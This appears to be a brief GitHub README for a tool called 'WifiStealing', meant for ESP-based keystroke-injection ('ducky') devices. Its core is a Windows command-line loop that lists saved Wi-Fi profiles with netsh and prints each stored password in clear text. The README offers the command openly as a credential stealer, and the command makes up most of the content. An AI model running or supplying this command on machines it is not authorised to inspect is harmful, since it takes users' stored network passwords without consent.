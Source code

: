 # WifiStealing
Wifi Stealer inspired by Manjuska Framework/TCM

Wireless will always be inferior 
:)


for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear


WHID for ESP based duckys
